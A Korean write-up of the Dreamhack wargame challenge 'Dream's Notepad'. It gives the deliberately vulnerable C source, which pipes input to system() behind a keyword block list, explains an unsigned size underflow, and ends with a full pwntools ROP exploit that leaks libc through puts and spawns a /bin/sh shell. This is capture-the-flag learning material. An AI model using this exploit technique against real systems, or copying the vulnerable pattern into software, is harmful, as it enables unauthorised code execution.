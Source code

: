 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN Dream's Notepad"
excerpt: "드림핵 포너블 Dream's Notepad 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-02-08 18:00
---
```


드림핵 포너블 Dream's Notepad 문제이다. 이 문제를 다운받아 보면 바이너리와 소스코드만 주어진다. 문제 환경은 공개되어 있지 않다.

문제 출제자의 의도는 rtc기법을 사용하라고 일부러 그런것 같은데... rtc를 까먹고 ROP 노가다를 했다. 일단 소스코드를 살펴보자.

```c
//gcc -o Notepad Notepad.c -fno-stack-protector
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void Initalize(){
   setvbuf(stdin, (char *)NULL, _IONBF, 0);
   setvbuf(stdout, (char *)NULL, _IONBF, 0);
   setvbuf(stderr, (char *)NULL, _IONBF, 0);
}

void main()
{
    Initalize();

    puts("Welcome to Dream's Notepad!\n");

    char title[10] = {0,};
    char content[64] = {0,};

    puts("-----Enter the content-----");
    read(0, content, sizeof(content) - 1);

    for (int i = 0; content[i] != 0; i++)
    {
        if (content[i] == '\n')
        {
            content[i] = 0;
            break;
        }
    }

    if(strstr(content, ".") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "/") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, ";") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "*") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "cat") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "echo") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "flag") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "sh") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "bin") != NULL) {
        puts("It can't be..");
        return;
    }

    char tmp[128] = {0,};

    sprintf(tmp, "echo %s > /home/Dnote/note", content);
    system(tmp);
    
    FILE* p = fopen("/home/Dnote/note", "r");
    unsigned int size = 0;
    if (p > 0)
    {
        fseek(p, 0, SEEK_END);
        size = ftell(p) + 1;
        fclose(p);
        remove("/home/Dnote/note");
    }

    char message[256];
    
    puts("\n-----Leave a message-----");
    read(0, message, size - 1);

    puts("\nBye Bye!!:-)");
}
```

첫번째로 read 함수를 통해 63만큼의 문자열을 입력 받고 블랙리스트 방식으로 문자열을 검사한다. 문제를 풀고 다른 분들의 풀이를 보니 커멘드 인젝션만으로 푸신 분들도 있었다.

블랙리스트 검사를 통과하면 echo를 통해 입력한 문자열을 쉘에 출력하고 출력한 값을 /home/Dnote/note에 저장한다. 이후 system함수를 통해 /home/Dnote/note에 저장된 데이터를 실행한다. 그 다음으로 fopen을 통해 /home/Dnote/note 파일을 오픈하는데 파일이 존재할 경우 size 변수에 파일 사이즈 +1을 해주고 파일을 삭제한다. 파일이 없으면 size는 초기화 상태인 0으로 고정된다.

이후 256사이즈의 버퍼에 read 함수를 통해 입력 받는데 입력 가능한 사이즈는 size-1이다. 여기서 unsigned int와 signed int변환 간에 생기는 취약점이 있다. 위의 fopen으로 오픈한 파일이 존재하지 않으면 size 변수는 0을 가지고 있는데 여기서 -1을 해 사이즈를 지정한다. 이때 보수 연산을 통해 결국 read가 읽을 수 있는 값은 int의 가장 큰 수가 된다. 따라서 버퍼 오버플로우를 일으킬 수 있다.

---

내가 작성한 익스플로잇을 간단히 설명해보겠다. 

우선 버퍼 오버플로우가 가능하려면 /home/Dnote/note 파일이 존재하지 않아야 한다. 따라서 백틱( ` )을 이용해 오류를 발생시켜 파일이 생성되지 않도록 했다. 백틱은 쌍을 이뤄 사용해야 한다. 하나만 사용되면 오류가 발생해 백틱을 열었으면 백틱을 한번 더 입력 해 닫아줘야 한다.

ROP를 통해서 read_got를 put_plt 함수로 출력하고 이후 다시 main함수로 돌아온다. gdb를 통해 확인한 결과 rbp-0x1e0를 통해 read 한 데이터를 입력 받고 있었다. 0x1e0를 dec로 바꾸면 480이고 sfp를 포함하면 488만큼 메모리를 덮어줘야 한다. 이후 pop rdi; ret 가젯을 사용했다.

출력된 read 함수 주소를 이용해 libc base 주소를 계산하고 libc의 system함수 주소와 bin/sh 주소를 찾아 다시 버퍼 오버플로우를 통해 쉘을 실행시켰다.

이런 방법에 문제는 해당 문제의 환경을 모르기 때문에 환경에 따른 libc 오프셋이 바뀔 수 있다. 실제로 우분투 16 18 20 22 버전의 libc를 각각 전부 돌려 쉘을 획득 할 수 있었다.

문제를 풀긴 풀었지만... 정석대로 풀려면 rtc 공격을 활용해야 한다.


```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 12708);
#c = process("./Notepad")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

c.sendafter(b"-----Enter the content-----\n", b"`")
#pop rdi; ret 0x400c73
pr = 0x400c73
read_got = 0x602040
put_plt = 0x400730
main = 0x400957

payload = p64(pr)+p64(read_got)+p64(put_plt)+p64(main)
payload = b"a"*488 + payload
c.sendafter(b"-----Leave a message-----\n", payload)

c.recvuntil(b"Bye Bye!!:-)\n")
libc_base = u64(c.recv(6)+b"\x00\x00")-libc.sym['read']
print("libc_base : "+hex(libc_base))

system = libc_base + libc.sym['system']
print(f"system : {hex(system)}")
binsh = libc_base+list(libc.search(b'/bin/sh'))[0]
print(f"binsh : {hex(binsh)}")

payload2 = p64(pr)+p64(binsh)+p64(system)
payload2 = b"a"*488 + payload2

c.sendafter(b"-----Enter the content-----\n", b"`")

c.sendafter(b"-----Leave a message-----\n", payload2)
c.interactive()

```